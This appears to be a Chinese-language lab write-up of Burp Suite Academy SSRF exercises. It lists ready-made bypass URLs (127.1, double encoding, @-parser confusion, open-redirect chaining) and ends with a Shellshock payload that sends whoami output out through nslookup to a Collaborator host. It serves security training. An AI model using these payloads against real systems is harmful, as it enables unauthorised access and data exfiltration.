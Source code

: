 ```yaml
---
title: Ssrf
date: 2023-09-03T15:29:52+08:00
updated: 2023-07-06T20:34:10+08:00
categories: 
- 渗透测试
- brup labs
---
```


## Basic SSRF against the local server

基础的ssrf，在数量查询位置找到调用的url，修改为

```
http://localhost/admin
```

成功读取的admin页面，在页面源代码中可以找到删除用户调用的api,再次调用该api即可

## Basic SSRF against another back-end system

与上题相同，不过需要通过爆破寻找admin界面

## blacklist-based input filter

简单的ssrf绕过，通过替换localhost为127.1达到绕过的效果，由于后端还存在对admin的监测，我们可以替换为双编码的形式进行绕过

```
http://127.1/%25%36%31dmin/delete?username=carlos
```

## whitelist-based input filter

上传一个

```
http://127.0.0.1
```

发现服务器正在解析该ip，并且提示，host必须为

```
stock.weliketoshop.net
```

这时候就需要用到弱解析器的特点进行绕过，当url中含有@#&等字符时，不同的解析器会解析不同的部分，如果没有严格的验证而是仅检测了是否存在字段，可以利用该特点进行绕过

```
http://localhost%25%32%33@stock.weliketoshop.net/%2561dmin/delete?username=carlos
```

该url被解析为由localhost进行访问

## filter bypass via open redirection vulnerability

在next product处存在一个开放的重定向漏洞，通过指定的的path能够重定向到admin页面，我们可以利用该处，在check处查看到admin页面的回显

```
/product/nextProduct?path=http://192.168.0.12:8080/admin
```

之后进行删除步骤即可

## Blind SSRFwith out-of-band detection

提示在referer获取指定的url,将该url修改为collaborator获取的域名，即可看到一些相关的dns以及http请求信息

## Shellshock exploitation

在referer处存在blind ssrf利用，由于目标端口为8080，我们可以利用shellshock获取rce

```
() { :; }; /usr/bin/nslookup $(whoami).BURP-COLLABORATOR-SUBDOMAIN
```

shell命令在ua处添加，根据提示，在referer处改变访问来源为主机服务

```
http://192.168.0.x
```

爆破1-255的地址即可在collaborator处获取到whoami的命令执行结果
